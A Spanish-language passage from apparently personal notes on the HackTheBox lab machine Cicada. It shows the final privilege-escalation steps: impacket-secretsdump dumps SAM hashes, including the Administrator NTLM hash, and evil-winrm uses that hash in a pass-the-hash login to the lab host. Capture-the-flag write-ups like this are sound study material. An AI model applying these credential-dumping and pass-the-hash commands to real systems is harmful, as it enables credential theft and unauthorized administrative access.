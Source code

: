 ## Con [[impacket-secretsdump]] vamos a abrir los archivos y que nos dumpee la informacion

```shell
impacket-secretsdump -sam sam -system system LOCAL
```

![[Cicada21.png]]

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```


Nos da el hash *2b87e7c93a3e8a0ea4a581937016f341*


## Conexion a la maquina con [[evil-winrm]]


```
evil-winrm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341' -P 5985
```


![[Cicada22.png]]
Ya somos administrator y podemos catear las flags
![[Cicada23.png]]
![[Cicada26.png]]

------
# Notas

Cuando encuentro un dominio, no solo sirve para paginas web, tambien sirve para todo lo que es AD

Tenemos el mail support@cicada.htb que no lo usamos para nada

Regedit es el nombre del Editor del Registro de Windows, una herramienta del sistema operativo que permite a los usuarios ver, editar y administrar la base de datos central de configuraciones de Windows

-------
# Creditos

[Writeup de chryb3r](https://medium.com/@chryb3r/cicada-hackthebox-writeup-44ce0910410b)
Writeup Oficial HackTheBox